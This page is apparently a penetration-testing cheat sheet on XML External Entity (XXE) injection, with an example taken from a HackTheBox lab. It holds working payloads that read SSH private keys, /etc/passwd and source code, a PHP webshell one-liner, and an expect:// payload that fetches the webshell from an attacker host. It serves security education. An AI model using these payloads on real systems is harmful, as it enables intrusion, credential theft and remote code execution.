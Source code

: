 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXE

{% hint style="success" %}
**XML External Entity (XXE) injection** is a security vulnerability where an attacker exploits an XML parser to include or reference external entities. This can lead to unauthorized access to files, server-side data, or internal systems, and can potentially expose sensitive information or cause denial-of-service attacks.
{% endhint %}

## General Information

### XML

**Extensible Markup Language (XML)** is focused on the storage and transportation of data and its key compoments are depicted below (Figure 1).

<figure><img src="../../.gitbook/assets/xxe_xml_compoments.png" alt=""><figcaption><p>Figure 1: The key components of an XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_syntax.asp">here</a>).</p></figcaption></figure>

If we need to use the XML-specific characters within an XML document they must be replaced with their corresponding entity references.

| XML reserved character | Entiry reference |
| ---------------------- | ---------------- |
| `<`                    | `&lt;`           |
| `>`                    | `&gt;`           |
| `&`                    | `&amp;`          |
| `'`                    | `&apos;`         |
| `"`                    | `&quot;`         |

What we are mostly interesting in from an attacker's POV is the [**XML Document Type Definition (DTD)**](https://www.w3schools.com/xml/xml\_dtd\_intro.asp) which allows the validation of an XML document against a pre-defined doc structure. The DTD can be placed within the XML doc itself (Figure 2), imported from an external file (Figure 3.1), or referenced through a URL (Figure 3.2).

<div>

<figure><img src="../../.gitbook/assets/xxe_dtd.png" alt="" width="354"><figcaption><p>Figure 2: An example of a DTD placed within the XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/xxe_dtd_references.png" alt=""><figcaption><p>Figure 3: A DTD imported from an external file (1) and a URL (2) (images adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

</div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

## Payloads

### RCE

Look for SSH private keys.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///home/kali/.ssh/id_rsa">
]>
```

If the `PHP://expect` filter is installed (it's not by default) and the output is reflected.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://whoami'">
]>
```

Fetch a webshell.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXE" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

### LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

### Source Code

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Example: XXE to LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

The checkout process is sending data in XML format (Figure 4).

<figure><img src="../../.gitbook/assets/xxe_example_checkout.png" alt=""><figcaption><p>Figure 4: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we also confirm this (Figure 5).

<figure><img src="../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 5: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 6).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 6: LFI via XXE.</p></figcaption></figure>

In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive file.

## Resources

{% tabs %}
{% tab title="w3schools" %}
{% embed url="https://www.w3schools.com/xml/default.asp" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/xxe" %}
{% endtab %}

{% tab title="HackTricks" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity" %}
{% endtab %}
{% endtabs %}
